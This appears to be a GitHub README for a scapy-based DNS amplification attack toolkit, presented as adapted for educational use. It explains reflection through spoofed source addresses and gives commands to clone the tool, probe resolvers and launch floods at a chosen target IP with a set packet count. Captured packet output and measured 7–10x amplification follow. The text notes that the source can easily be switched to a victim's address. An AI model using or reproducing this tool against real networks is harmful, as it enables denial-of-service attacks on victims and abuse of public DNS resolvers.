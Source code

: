 DNS Amplification attack
===
Customization of the repository of tony2037
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

Some adaptations have been made for easier deployment and more flexible use in an educational setting.

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
This package is a standalone toolkit based on **python scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet. The scapy library is included in the repository to ensure compatibility with virtually any host that can run Python.
The `destination` is `8.8.8.8`, which is well-known **google DNS server**.
In the experience phase, the `source address` is local, but can be easily change to `victim address` in attack phase.
- [ ] DAA.py
Used for lauching attack
- [ ] sniffer.py
Used for sniffing packet to varify

## Result
Sending: 70 bytes
Receiving: 500~ 700 bytes
Amplification is about 7 ~ 10 times

## Usage
### Clone repository
git clone https://github.com/Ezecheel/Dns-Amplification-Attack
### Reconnaissance to check amplification
sudo python DAA_recon.py -D _destination_IP_ -q _queryname_ -qt _number of query type_
### Launch attack
sudo python DAA.py -D _destination_IP_ -T _target_IP_ -q _queryname_ -qt _number of query type_ -n _number of packets to send_
### Listen to DNS traffic
sudo python snifffer.py
### Snapshot
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```
